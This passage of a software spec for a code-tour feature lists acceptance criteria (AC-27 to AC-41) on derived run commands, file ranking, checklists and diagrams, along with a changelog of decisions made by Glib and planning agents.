| AC-27 | red-first integration | LLM-invented command dropped, note kept | — | — | — |
| AC-28 | red-first unit | derived commands in order, `lint` excluded; `npm run` and `bun run` forms | — | — | — |
| AC-29 | red-first unit | note rendered apart; copy puts the command only on the clipboard, "Copied" | — | — | — |
| AC-30 | red-first unit | no commands → notice | — | — | — |
| AC-31 | red-first unit | rank order, path tie-break, tests excluded, ≤ 10 | — | — | — |
| AC-32 | red-first unit | "Ordered by how many files depend on it" | — | — | — |
| AC-33 | red-first integration | LLM cannot add, drop or reorder; fallback reason | — | — | — |
| AC-34 | red-first unit | Open → GitHub blob at tour commit, new tab | — | — | — |
| AC-35 | red-first unit | server stores tasks, or the checklist items without a missing step; the client renders stored items only | — | — | — |
| AC-36 | red-first integration | ghost path dropped; all ghosts → checklist items stored | — | — | — |
| AC-37 | red-first unit | sanitised overview, path as code | — | — | — |
| AC-38 | red-first unit | valid diagram shown; invalid or 13 nodes dropped | — | — | — |
| AC-39 | red-first unit | Share link copies the page address | — | — | — |
| AC-41 | red-first unit | 120 routes, 10,000-character README, 35 folders → 50, 4,000, 20 | — | — | — |
| AC-40 | browser (main session) | hono on the dev stack: five sections, log line with calls and cost, screenshots | — | — | — |

## Changelog

| date | change | why |
|---|---|---|
| 2026-10-02 | Spec created (draft), Full SDD 5/6 | answers mode: user answers Q1 a, Q4 a, Q8 b; Q2, Q3, Q5, Q6, Q7 and N1–N10 accepted as recommended; UX proposals not accepted |
| 2026-10-02 | Closed NC-1 (AC-25: keep the earlier LLM tour, record the failure, show the banner; adds `last_failure` to the contract) and NC-2 (Cost NFR caps, new AC-41) | answers mode: Glib chose NC-1 a and accepted the NC-2 recommendation; spec-creator's readings kept, not vetoed |
| 2026-10-02 | Status: approved | set by Glib after NC-1/NC-2 were closed |
| 2026-10-03 | Planner findings resolved:<br>• AC-23: `error` added to `skeleton_reason`, with a status line;<br>• AC-22, AC-35, AC-36: the server owns the checklist and stores it as first-task items, and the client only renders;<br>• AC-28: script command format per package manager, with `bun run` to avoid bun's built-in `test`/`build`;<br>• AC-15: N < M counts as partial;<br>• Contracts: HTTP statuses 202/409/404/422;<br>• Goals: tokens in the log only;<br>• AC-29: the note is rendered apart and is not copied.<br>Status kept approved. | update mode: the implementation-planner's findings, routed by Glib; clarifications inside decisions already taken (honest status, Q3 a, Q6 a, Q7 a, N4) |
| 2026-10-03 | AC-15: the subline's index text applies only to the `full` (N files) and `partial` (N of M) index statuses. `unavailable` and `unsupported_languages` show the age only; verify extended. Status stays approved | update mode: plan-verifier finding; Glib kept the built behaviour ("Лише «generated 2h ago»") |
